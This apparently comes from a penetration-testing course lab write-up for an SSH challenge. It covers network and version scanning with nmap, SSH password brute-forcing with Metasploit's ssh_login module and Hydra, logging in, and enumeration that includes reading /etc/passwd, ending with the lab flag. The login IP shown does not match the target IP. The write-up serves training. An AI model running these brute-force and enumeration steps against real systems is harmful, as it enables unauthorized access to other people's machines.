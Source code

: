 # 🔬SSH

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [SSH Login](https://attackdefense.com/challengedetails?cid=1526)
>
> * Target IP: `192.142.193.3`
> * **Brute-force** of [OpenSSH](https://www.openssh.com/) server
> * **Enumeration and nmap scripts** have been already covered in this [SSH Enum lab](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/ssh-enum)

### Enumeration <a href="#enumeration" id="enumeration"></a>

```bash
ip -br a
nmap -sn 192.142.193.0/24
```

<figure><img src="../../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sV 192.142.193.3
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-19 08:32 UTC
Nmap scan report for target-1 (192.142.193.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:8E:C1:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> OpenSSH 7.9p1 cannot be exploited directly

```bash
msfconsole -q

msf5 > use auxiliary/scanner/ssh/ssh_version 
msf5 auxiliary(scanner/ssh/ssh_version) > show options
msf5 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.142.193.3
msf5 auxiliary(scanner/ssh/ssh_version) > run

[+] 192.142.193.3:22      - SSH server version: SSH-2.0-OpenSSH_7.9p1 Ubuntu-10 ( service.version=7.9p1 openssh.comment=Ubuntu-10 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:7.9p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=19.04 os.cpe23=cpe:/o:canonical:ubuntu_linux:19.04 service.protocol=ssh fingerprint_db=ssh.banner )
[*] 192.142.193.3:22      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Brute-Force - Metasploit <a href="#brute-force" id="brute-force"></a>

* Metasploit `ssh_login` module or `Hydra` tool can be utilized for brute forcing the SSH password

```bash
msf5 auxiliary(scanner/ssh/ssh_version) > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > show options
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.142.193.3
msf5 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
msf5 auxiliary(scanner/ssh/ssh_login) > exploit 
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Brute-Froce - Hydra

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt -t4 192.142.193.3 ssh
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

* Login to the target via SSH

```bash
ssh sysadmin@192.63.218.3
```

```bash
groups sysadmin
cat /etc/*release
uname -r
cat /etc/passwd
find / -name "flag"
cat /flag
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `eb09cc6f1cd72756da145892892fbf5a`
{% endhint %}

